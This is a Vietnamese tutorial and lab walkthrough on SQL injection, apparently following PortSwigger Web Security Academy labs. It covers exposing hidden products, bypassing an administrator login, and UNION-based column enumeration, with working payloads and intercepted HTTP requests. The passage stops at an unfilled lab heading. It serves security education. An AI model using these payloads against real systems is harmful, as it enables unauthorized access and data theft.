# SQL injection (SQLi) là gì?
SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện với cơ sở dữ liệu của nó. Điều này có thể cho phép kẻ tấn công xem dữ liệu mà họ không thể truy cập được, bao gồm dữ liệu của người dùng khác hoặc bất kỳ dữ liệu nào mà ứng dụng có thể truy cập. Trong nhiều trường hợp, kẻ tấn công có thể sửa đổi hoặc xóa dữ liệu này, gây ra các thay đổi vĩnh viễn đối với nội dung hoặc hành vi của ứng dụng.<br>Trong một số tình huống, kẻ tấn công có thể leo thang cuộc tấn công SQL injection để xâm nhập vào máy chủ hoặc cơ sở hạ tầng phía sau. Điều này cũng có thể cho phép chúng thực hiện các cuộc tấn công từ chối dịch vụ (DoS).

# Cách nhận biết lỗ hổng SQL injection
Bạn có thể phát hiện SQL injection thủ công bằng cách kiểm tra một cách có hệ thống từng điểm nhập liệu trong ứng dụng. Để làm điều này, bạn có thể:

- Gửi ký tự dấu nháy đơn `'` và kiểm tra lỗi hoặc bất thường.
- Sử dụng cú pháp SQL đặc biệt để so sánh giá trị ban đầu và giá trị thay đổi.
- Kiểm tra các điều kiện Boolean như `OR 1=1` và `OR 1=2` và xem phản hồi khác nhau.
- Sử dụng các payloads để gây ra độ trễ thời gian và kiểm tra sự khác biệt trong thời gian phản hồi.
- Dùng các payloads OAST để kích hoạt tương tác mạng và giám sát các tương tác kết quả.

Ngoài ra, bạn có thể sử dụng Burp Scanner để phát hiện các lỗ hổng SQL injection một cách nhanh chóng và đáng tin cậy.

Hầu hết các lỗ hổng SQL injection xảy ra trong mệnh đề `WHERE` của truy vấn SELECT. Tuy nhiên, chúng có thể xuất hiện ở bất kỳ vị trí nào trong truy vấn và trong các loại truy vấn khác nhau. Một số vị trí phổ biến khác mà SQL injection xuất hiện bao gồm:

- Trong câu lệnh `UPDATE`, bên trong các giá trị được cập nhật hoặc mệnh đề WHERE.
- Trong câu lệnh `INSERT`, bên trong các giá trị được chèn.
- Trong câu lệnh `SELECT`, bên trong tên bảng hoặc tên cột.
- Trong câu lệnh `SELECT`, bên trong mệnh đề `ORDER BY`.

<h1>Thu thập thông tin ẩn</h1>
Hãy tưởng tượng một ứng dụng mua sắm hiển thị sản phẩm theo các danh mục khác nhau. Khi người dùng nhấp vào danh mục Quà tặng, trình duyệt của họ yêu cầu URL:

```
https://insecure-website.com/products?category=Gifts
```

Điều này khiến ứng dụng thực hiện một truy vấn SQL để lấy chi tiết về các sản phẩm liên quan từ cơ sở dữ liệu:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Truy vấn này yêu cầu cơ sở dữ liệu trả về:

- Tất cả chi tiết (*)
- Từ bảng products
- Nơi category là Gifts
- Và released là 1

Điều kiện `released = 1` được sử dụng để ẩn sản phẩm chưa phát hành. Từ đó có thể cho rằng các sản phẩm chưa phát hành sẽ có điều kiện là `released = 0`.

Khi một ứng dụng không có bất cứ cơ chế phòng thủ nào để chống lại SQL injection, kẻ tấn công có thể truy cập ứng dụng bằng đường link:

```
https://insecure-website.com/products?category=Gifts'--
```

Kết quả là một truy vấn SQL được thực hiện:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

```--``` là dấu được sử dụng để đánh dấu phần bình luận trong ngôn ngữ SQL, tương tự với việc mọi thứ đứng sau nó trong một truy vấn SQL sẽ được coi như một bình luận và không được thực thi. Trong ví dụ này, kẻ tấn công đã loại bỏ được điều kiện ```AND released = 1``` và lấy ra toàn bộ thông tin thuộc `category = Gifts`, bao gồm cả những sản phẩm chưa được phát hành.

Phát triển từ phương pháp này, kẻ tấn công có thể truy cập vào ứng dụng bằng một đường link tương tự để có thể lấy được thông tin về mọi sản phẩm thuộc bất kỳ danh mục nào hoặc đã phát hành hay chưa:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Ứng dụng sẽ thực hiện truy vấn SQL:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Truy vấn này trả về mọi kết quả có `category = Gifts` hoặc `1 = 1`, hay mệnh đề `true` và truy vấn trả về mọi kết quả.

> ## Lưu ý
> Khi chèn điều kiện OR 1=1 vào một truy vấn SQL, ngay cả khi điều này có vẻ vô hại trong ngữ cảnh mà bạn đang chèn vào, thì việc các ứng dụng sử dụng dữ liệu từ một yêu cầu duy nhất trong nhiều truy vấn khác nhau là điều rất phổ biến. Nếu điều kiện của bạn được áp dụng cho một câu lệnh UPDATE hoặc DELETE, ví dụ như vậy, nó có thể gây ra mất dữ liệu ngoài ý muốn.

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection liên quan đến bộ lọc về loại mặt hàng. Khi người dùng chọn một loại mặt hàng, ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Để giải bài lab này, hãy thực hiện tấn công SQL injection và xuất ra ít nhất một sản phẩm chưa được phát hành.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Tech gifts*.
5. Bỏ qua gói tin PING bằng cách nhấn **Forward**.
6. Phân tích gói tin ta sẽ thấy phần `category=Tech+gifts`.

```
GET /filter?category=Tech+gifts HTTP/2
Host: 0acf0092030fea408003951800f6008e.web-security-academy.net
Cookie: session=cY6Hd4SqjPVZvbrqetjcwXHgbbdGigPp
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acf0092030fea408003951800f6008e.web-security-academy.net/filter?category=Pets
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```

7. Sửa thông tin `category` thành `category=Tech+gifts'+OR+1=1--`. Lúc này ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM products WHERE category = 'Tech gifts' OR 1=1--' AND released = 1
```
- Mệnh đề `WHERE` sẽ tìm kiếm các sản phẩm có `category = 'Tech gifts'` hoặc `1=1` (luôn đúng), tức sẽ trả về mọi sản phẩm.
- Dấu `--` sử dụng để đưa mệnh đề `AND` vào phần bình luận và không thực hiện nó, từ đó lấy được thông tin về các sản phẩm chưa phát hành.

8. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.



# Thay đổi logic ứng dụng

Hãy tưởng tượng một ứng dụng cho phép người dùng đăng nhập bằng tên người dùng và mật khẩu. Nếu một người dùng nhập tên người dùng là wiener và mật khẩu là bluecheese, ứng dụng sẽ kiểm tra thông tin đăng nhập bằng cách thực hiện truy vấn SQL sau:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Nếu truy vấn trả về thông tin chi tiết của một người dùng, thì việc đăng nhập thành công. Ngược lại, nó sẽ bị từ chối.

Trong trường hợp này, một kẻ tấn công có thể đăng nhập vào bất kỳ tài khoản nào mà không cần mật khẩu. Họ có thể làm điều này bằng cách sử dụng chuỗi nhận xét SQL `--` để loại bỏ kiểm tra mật khẩu khỏi mệnh đề WHERE của truy vấn. Ví dụ, việc nhập tên người dùng `administrator'--` và mật khẩu trống sẽ tạo ra truy vấn sau:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

Truy vấn này sẽ trả về người dùng có tên đăng nhập là administrator và cho phép kẻ tấn công đăng nhập thành công vào tài khoản của người dùng đó.

# Lab: SQL injection vulnerability allowing login bypass

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong chức năng đăng nhập.

Để giải quyết bài lab, thực hiện một cuộc tấn công SQL injection để đăng nhập vào ứng dụng với tư cách là người dùng quản trị viên.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn *My account* để di chuyển tới trang đang nhập của ứng dụng.



4. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
5. Điền một thông tin đăng nhập ngẫu nhiên vào `username` và `password`, trong ví dụ này tôi sử dụng ký tự `a` để điền vào cả 2, và chọn **Log in**.
6. Phân tích gói tin mà BurpSuite đã chặn lại, ta có thể thấy các lệnh gán được thực hiện lên các biến `username=a` và `password=a`.

```
POST /login HTTP/2
Host: 0a5a001003763365809c807a00fd0066.web-security-academy.net
Cookie: session=kPlT05GsAtrZGFOGdOtT0NOjX1HF760s
Content-Length: 59
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a5a001003763365809c807a00fd0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5a001003763365809c807a00fd0066.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=92xpj2USBesupJfJH5bMZebO8iUjdxPa&username=a&password=a
```

7. Ta có thể nhận định rằng ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'a' AND password = 'a'
```

8. Vì đang hướng tới người dùng `administrator`, ta có thể điền `administrator'--` vào `username` và điền ngẫu nhiên vào `password` trên giao diện đăng nhập. Ứng dụng sau đó sẽ thực hiện truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'a'
```
- `administrator` được điền vào để hướng tới việc đăng nhập bằng quyền của người dùng `administrator`.
- `'--` được điền vào để đóng lại phần nhập dữ liệu đầu vào cho `username` và biến toàn bộ phần đăng sau của truy vấn SQL trở thành bình luận.

9. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.

# Tấn công SQL injection UNION

Khi một ứng dụng bị mắc lỗ hổng SQL injection và kết quả của truy vấn được trả về trong các phản hồi của ứng dụng, bạn có thể sử dụng từ khóa `UNION` để truy xuất dữ liệu từ các bảng khác trong cơ sở dữ liệu. Đây được gọi là một cuộc tấn công SQL injection `UNION`.

Từ khóa `UNION` cho phép bạn thực hiện một hoặc nhiều truy vấn `SELECT` bổ sung và nối kết quả vào truy vấn gốc. Ví dụ:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Truy vấn SQL này trả về một tập hợp kết quả duy nhất với hai cột, chứa các giá trị từ các cột a và b trong table1 và các cột c và d trong table2.

Để một truy vấn `UNION` hoạt động, hai yêu cầu chính phải được đáp ứng:

- Các truy vấn riêng lẻ phải trả về cùng số cột.
- Các kiểu dữ liệu trong mỗi cột phải tương thích giữa các truy vấn riêng lẻ.

Để thực hiện một cuộc tấn công SQL injection `UNION`, hãy đảm bảo rằng cuộc tấn công của bạn đáp ứng hai yêu cầu này. Điều này thường bao gồm việc tìm ra:

- Số cột được trả về từ truy vấn gốc.
- Các cột nào được trả về từ truy vấn gốc có kiểu dữ liệu phù hợp để chứa kết quả từ truy vấn được chèn vào.

# Xác định số cột cần thiết

Khi thực hiện một cuộc tấn công SQL injection `UNION`, có hai phương pháp hiệu quả để xác định số cột được trả về từ truy vấn gốc.

Một phương pháp liên quan đến việc chèn một loạt các mệnh đề `ORDER BY` và tăng dần chỉ số cột cho đến khi xuất hiện lỗi. Ví dụ, nếu điểm tiêm nhiễm là một chuỗi được trích dẫn trong mệnh đề `WHERE` của truy vấn gốc, bạn sẽ nhập:

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Loạt payload này sửa đổi truy vấn gốc để sắp xếp kết quả theo các cột khác nhau trong tập kết quả. Cột trong mệnh đề `ORDER BY` có thể được chỉ định theo chỉ số của nó, vì vậy bạn không cần phải biết tên của bất kỳ cột nào. Khi chỉ số cột được chỉ định vượt quá số lượng cột thực tế trong tập kết quả, cơ sở dữ liệu sẽ trả về một lỗi, chẳng hạn như:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

Ứng dụng có thể thực sự trả về lỗi cơ sở dữ liệu trong phản hồi HTTP của nó, nhưng nó cũng có thể phát hành một phản hồi lỗi chung chung. Trong các trường hợp khác, nó có thể chỉ đơn giản là không trả về kết quả nào cả. Dù bằng cách nào, miễn là bạn có thể phát hiện ra một số sự khác biệt trong phản hồi, bạn có thể suy ra số cột được trả về từ truy vấn.

Phương pháp thứ hai liên quan đến việc gửi một loạt các payload `UNION SELECT` với số lượng giá trị NULL khác nhau:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Nếu số lượng `NULL` không khớp với số lượng cột, cơ sở dữ liệu sẽ trả về một lỗi, chẳng hạn như:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Chúng ta sử dụng `NULL` làm giá trị được trả về từ truy vấn `SELECT` được chèn vào vì các kiểu dữ liệu trong mỗi cột phải tương thích giữa truy vấn gốc và truy vấn được chèn vào. `NULL` có thể chuyển đổi sang mọi kiểu dữ liệu thông thường, do đó tối đa hóa khả năng payload thành công khi số lượng cột là đúng.

Tương tự như kỹ thuật `ORDER BY`, ứng dụng có thể thực sự trả về lỗi cơ sở dữ liệu trong phản hồi HTTP của nó, nhưng cũng có thể trả về một lỗi chung chung hoặc đơn giản là không trả về kết quả nào. Khi số lượng `NULL` khớp với số lượng cột, cơ sở dữ liệu sẽ trả về một hàng bổ sung trong tập kết quả, chứa các giá trị `NULL` trong mỗi cột. Hiệu ứng trên phản hồi HTTP phụ thuộc vào mã của ứng dụng. Nếu may mắn, bạn sẽ thấy một số nội dung bổ sung trong phản hồi, chẳng hạn như một hàng thêm vào trong bảng HTML. Ngược lại, các giá trị `NULL` có thể gây ra một lỗi khác, chẳng hạn như `NullPointerException`. Trong trường hợp xấu nhất, phản hồi có thể trông giống như một phản hồi gây ra bởi số lượng `NULL` không đúng. Điều này sẽ làm cho phương pháp này không hiệu quả.

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác. Bước đầu tiên của cuộc tấn công này là xác định số lượng cột được trả về bởi truy vấn. Sau đó, bạn sẽ sử dụng kỹ thuật này trong các bài lab tiếp theo để xây dựng cuộc tấn công đầy đủ.

Để giải quyết bài lab, hãy xác định số lượng cột được trả về bởi truy vấn bằng cách thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa các giá trị NULL.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Theo yêu cầu của đề, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.


8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 3 cột.



9. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông báo đã hoàn thành bài lab.

# Cú pháp đặc thù của cơ sở dữ liệu

Trên Oracle, mọi truy vấn `SELECT` đều phải sử dụng từ khóa `FROM` và chỉ định một bảng hợp lệ. Có một bảng tích hợp trên Oracle gọi là dual có thể được sử dụng cho mục đích này. Vì vậy, các truy vấn tiêm vào Oracle cần phải trông như sau:
```sql
' UNION SELECT NULL FROM DUAL--
```
Các payload mô tả sử dụng chuỗi chú thích dấu gạch đôi `--` để chú thích phần còn lại của truy vấn gốc sau điểm tiêm. Trên MySQL, chuỗi dấu gạch đôi phải được theo sau bởi một khoảng trắng. Ngoài ra, ký tự hash # có thể được sử dụng để xác định một chú thích.

Để biết thêm chi tiết về cú pháp đặc thù của cơ sở dữ liệu, hãy xem cheat sheet về SQL injection.

# Tìm các cột có kiểu dữ liệu hữu ích

Một cuộc tấn công SQL injection UNION cho phép bạn truy xuất kết quả từ một truy vấn tiêm vào. Dữ liệu thú vị mà bạn muốn truy xuất thường ở dạng chuỗi. Điều này có nghĩa là bạn cần tìm một hoặc nhiều cột trong kết quả truy vấn gốc có kiểu dữ liệu là chuỗi hoặc tương thích với dữ liệu chuỗi.

Sau khi xác định số lượng cột cần thiết, bạn có thể kiểm tra từng cột để xem liệu nó có thể chứa dữ liệu chuỗi hay không. Bạn có thể gửi một loạt payload `UNION SELECT` đặt giá trị chuỗi vào từng cột lần lượt. Ví dụ, nếu truy vấn trả về bốn cột, bạn sẽ gửi:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
Nếu kiểu dữ liệu của cột không tương thích với dữ liệu chuỗi, truy vấn được truyền vào sẽ gây ra lỗi trên cơ sở dữ liệu, chẳng hạn như:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

Nếu không xảy ra lỗi và phản hồi của ứng dụng chứa một số nội dung bổ sung bao gồm giá trị chuỗi tiêm vào, thì cột tương ứng đó phù hợp để truy xuất dữ liệu chuỗi.

# Lab: SQL injection UNION attack, finding a column containing text

## Mô tả bài lab

